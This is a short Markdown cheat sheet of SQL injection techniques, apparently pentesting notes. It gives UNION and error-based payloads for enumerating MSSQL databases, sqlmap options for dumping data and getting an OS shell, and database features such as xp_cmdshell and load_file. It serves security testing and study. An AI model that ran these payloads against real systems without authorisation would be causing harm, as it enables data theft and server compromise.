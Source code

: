 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
   * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
      * `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
     * `--technique=<U>`
     * `--banner`
     * `--dbms` - database type
     * `--dbs` - list databases
     * `-D <database>`, `-T <tables>`, `-C <columns>` - select specific database/table/column
     * `--tables`, `--columns` - list tables, columns
     * `--dump`
     * `--string` - always present in True output
     * `--not-string` - always present in False output
     * `--prefix <value>`, `--suffix <value>`
     * `--keep-alive` - persistent connection to target
     * `--os-cmd`, `--os-shell` - takeover comamnds (cmdshell, UDF)

## Techniques
#### MSSQL
* `xp_cmdshell` - executes OS commands
* `openrowset` - access the tables of a remote server; can be used as port scanner
#### MySQL
* `load_file`
* `load data infile`
* `dumpfile`
* UDF
  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet

